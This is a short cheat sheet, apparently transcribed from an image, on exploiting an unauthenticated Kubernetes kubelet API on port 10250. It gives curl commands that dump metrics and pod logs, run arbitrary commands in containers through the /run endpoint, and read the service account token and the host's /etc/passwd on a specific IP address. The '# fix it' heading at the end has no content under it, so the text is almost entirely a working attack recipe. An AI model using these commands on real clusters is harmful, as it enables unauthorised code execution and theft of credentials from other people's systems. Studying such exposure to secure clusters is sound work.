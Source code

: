 
# get infos

curl -k https://<ip>:10250/metrics
curl -k https://<ip>:10250/logs/pods/

# run code

kubectl apply -f pod.yaml

# get sensitive data

curl -XPOST -k https://<ip>:10250/run/<namespace>/<pod>/<container> -d "cmd=<command-to-run>"

curl -XPOST -k https://116.203.41.138:10250/run/default/my-pod/my-ubuntu -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"

curl -XPOST -k https://116.203.41.138:10250/run/default/my-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"

# fix it